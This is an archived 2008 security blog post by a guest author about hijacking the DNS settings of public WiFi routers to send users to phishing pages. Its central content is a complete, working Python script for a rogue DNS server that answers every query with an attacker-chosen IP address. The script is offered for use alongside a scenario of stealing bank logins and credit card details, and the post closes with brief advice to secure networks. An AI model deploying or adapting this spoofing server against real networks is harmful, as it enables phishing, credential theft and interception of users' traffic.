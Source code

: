 ```yaml
---
title: WiFi Ownage
author: petko-d-petkov
guest: sam-aldis
date: Thu, 07 Feb 2008 10:59:13 GMT
template: post.jade
---
```


> This month GNUCITIZEN's guest blogger is Sam Aldis, the founder of [darkstar.me.uk](http://darkstar.me.uk/). Sam started as a blackhat/script kiddie but soon he has learned a life lesson when he broke into a big football(soccer) leagues site. Sam did not serve any sentence but he had to pay a hefty fine. This is how he turned into a whitehat and now he is in the process of setting up his own security company. These are his words:

I have recently been doing research into WiFi connections without wepkeys and where the attacker is able to change the primary DNS server on the router. This is actually a very serious problem as the attacker is able to get your credit card details or any other information you input without you even knowing.

Imagine you are at a hotel with your laptop. You connect to the WiFi that they provide and type in `www.google.com`, which brings up google's front page. The address bar says http://www.google.com and the page looks genuine so it is.. isn't it? However, attackers may could have got access to the router and changed the primary DNS server through many of the available methods in the wild, like [UPnP hacking](/blog/hacking-with-upnp-universal-plug-and-play), etc.

Theoretically, the attacker could use any IP address to pull the trick, as long as a DNS server was running behind the UDP port 53. But it would be more beneficial if the attacker is under control of this DNS server, so he/she is able to show the user what ever they want them to see. For example, the user could type in their bank's website address and end up at a phishing page but they wouldn't know because they would see their banks address in the title bar and the page could be made to look exactly the same (and auto-update itself through some PHP magic). When the user logs in, a fake DNS server will respond which will make the user go to the wrong IP address. As you can see this is a big threat that will affect anyone who hasn't secured their network.

I have created a python script which can act as a temporary DNS server which will direct all requests to a certain IP (keep checking [http://darkstar.me.uk](http://darkstar.me.uk) for updates). Here is the script that complies to the scenarios described above:

```html
# DNS Injection Server
# Created By fazed
# DNSQuery class adapted from Francisco Santos's
# code. why re-invent the wheel?

from socket import *

class DNSQuery:
 def __init__(self, data):
   self.data=data
   self.domain=''

   tipo = (ord(data[2]) >> 3) & 15
   if tipo == 0:
     ini=12
     lon=ord(data[ini])
     while lon != 0:
       self.domain+=data[ini+1:ini+lon+1]+'.'
       ini+=lon+1
       lon=ord(data[ini])

 def respond(self, ip):
   packet=''
   if self.domain:
     packet+=self.data[:2] + "\x81\x80"
     packet+=self.data[4:6] + self.data[4:6] + '\x00\x00\x00\x00'
     packet+=self.data[12:]
     packet+='\xc0\x0c'
     packet+='\x00\x01\x00\x01\x00\x00\x00\x3c\x00\x04'
     packet+=str.join('',map(lambda x: chr(int(x)), ip.split('.')))
   return packet

print ":: DNS Injection Server Started ::"
sh = socket(AF_INET, SOCK_DGRAM)
print "Socket Handle Created.."
sh.bind(('',53))
print "Socket Handle Bound To UDP Port 53"
ip = raw_input("IP to inject: ")
try:
   while 1:
       data, addr = sh.recvfrom(1024)
       print "DNS Request From:", addr[0]
       p = DNSQuery(data)
       print "Sending IP address:", ip
       sh.sendto(p.respond(ip),addr)
       print "Response Sent.."
except KeyboardInterrupt:
   print ":: DNS Injection Server Stoped ::"
   sh.close()
```

The bottom line is: secure your networks and don't trust public WiFi access points.
